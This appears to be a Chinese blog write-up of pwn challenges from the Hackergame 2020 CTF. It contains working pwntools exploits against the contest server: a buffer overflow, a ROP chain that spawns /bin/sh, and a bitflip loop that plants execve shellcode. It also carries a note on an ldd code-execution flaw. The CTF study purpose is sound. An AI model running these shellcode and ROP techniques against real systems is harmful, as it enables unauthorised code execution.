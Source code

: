 # Hackergame2020


玩了一次hackergamer，这里我只给出pwn的解答，也可以去看官方的[hackergame2020-writeups](https://github.com/USTC-Hackergame/hackergame2020-writeups)

# 生活在博弈树上

<!-- more -->

两种获得flag的方法：

- 覆盖胜利判断条件
- 栈溢出-ROP

## exp

- 覆盖胜利条件

```python
from pwn import *
from LibcSearcher import LibcSearcher
context.log_level="DEBUG"
context.arch="amd64"

local=0
#gdb.attach(p)
if local:
	p=process('./pwn')
	elf = ELF('./pwn')
else:
	p=remote('202.38.93.111',10141)
	elf = ELF('./pwn')

offset=0x90-1-5
payload='654:MEQCIEf6j+LhgeLSPOeZC/OwkdH+wHB9nXZHJxMNfAFy8OH5AiAnpcECcSQS8aCnVRKH+poDokge2AodYTIsFcTix+tShA=='
p.sendline(payload)
payload='(1,1)'+'a'*offset+p64(0x1)
p.send(payload)

p.interactive()
```

- ROP

```python
from pwn import *
from struct import pack
from LibcSearcher import LibcSearcher
context.log_level="DEBUG"
context.arch="amd64"

local=0
#gdb.attach(p)
if local:
	sh=process('./pwn')
	elf = ELF('./pwn')
else:
	sh=remote('202.38.93.111',10141)
	elf = ELF('./pwn')
offset=0x90-5
payload='654:MEQCIEf6j+LhgeLSPOeZC/OwkdH+wHB9nXZHJxMNfAFy8OH5AiAnpcECcSQS8aCnVRKH+poDokge2AodYTIsFcTix+tShA=='
sh.sendline(payload)
#gdb.attach(p)
# Padding goes here
p = '(1,1)'+'a'*offset+p64(0x1)
p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e0) # @ .data
p += pack('<Q', 0x000000000043e52c) # pop rax ; ret
p += '/bin//sh'
p += pack('<Q', 0x000000000046d7b1) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x0000000000439070) # xor rax, rax ; ret
p += pack('<Q', 0x000000000046d7b1) # mov qword ptr [rsi], rax ; ret
p += pack('<Q', 0x00000000004017b6) # pop rdi ; ret
p += pack('<Q', 0x00000000004a60e0) # @ .data
p += pack('<Q', 0x0000000000407228) # pop rsi ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x000000000043dbb5) # pop rdx ; ret
p += pack('<Q', 0x00000000004a60e8) # @ .data + 8
p += pack('<Q', 0x0000000000439070) # xor rax, rax ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000463af0) # add rax, 1 ; ret
p += pack('<Q', 0x0000000000464095) # syscall ; ret
sh.sendline(p)
#gdb.attach(p)
sh.interactive()
```

# 超精准的宇宙射线

真的就是只能改1bit呗

我第一次的思路是只改1bit是不可能获得shell的，有没有办法能重复调用bitflip，于是就在call exit的代码处试了试，结果发现回到了start函数，这样我就能无限修改bit了。

继续分析，在调试的时候发现在0x401000-0x402000段为rwx段，那这个绝对就是我们要写入shellcode的地方了。在call exit的时候会调用0x4010c0的代码，所以我们就在这里写shellcode。

害，python没学好，自己手算了20多个字节，写了几百个比特的翻转。

这里我遇到了问题，我的非常确定的将每个bit正确的翻转了，我在0x401020的位置写入了‘/bin/sh’字符串，在0x401030处写了shellcode，但很奇怪，我动态调试了一下，发现0x401030处的代码没有发生变化，而0x401020处却正确的存入了字符串。

初步猜测是因为我调用的start函数的原因

## exp

```python
#!/usr/bin/env python3
from pwn import *

context.log_level='debug'
r = remote('202.38.93.111', 10231)
r.recvuntil("token: ")
r.sendline("654:MEQCIEf6j+LhgeLSPOeZC/OwkdH+wHB9nXZHJxMNfAFy8OH5AiAnpcECcSQS8aCnVRKH+poDokge2AodYTIsFcTix+tShA==")
def flip(addr, bit):
    r.recvuntil('flip?')
    r.sendline(hex(addr) + ' ' + str(bit))

target = 0x401295
flip(target + 1, 6)

shellcode_start = 0x4010c0
shellcode = b"\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05"
e = ELF('./pwn')
for i in range(len(shellcode)):
    b = shellcode[i] ^ e.read(shellcode_start + i, 1)[0]
    for j in range(8):
        if (b >> j) & 1:
            flip(shellcode_start + i, j)
flip(target + 1, 6)

r.interactive()
```

# 动态链接库检查器

这个是真的是没想到，ldd命令是有漏洞的。

 **(CVE-2019-1010023) - ldd should protect against programs whose segments overlap with the loader itself**

请注意，在某些情况下（例如，程序指定了ld-linux.so以外的ELF解释器），某些版本的ldd可能会尝试通过直接执行程序来尝试获取依赖项信息，从而可能导致执行程序的ELF解释器中定义的任何代码，还可能导致执行程序本身。 （例如，在2.27之前的glibc版本中，上游ldd实现做到了这一点，尽管大多数发行版提供的修改版本都没有。）因此，切勿在不受信任的可执行文件上使用ldd，因为这可能会导致执行任意代码。处理不受信任的可执行文件时，更安全的选择是：$ objdump -p / path / to / program | grep需要，但是，这种选择只显示了可执行文件的直接依赖关系，而ldd显示了可执行文件的整个依赖关系树。

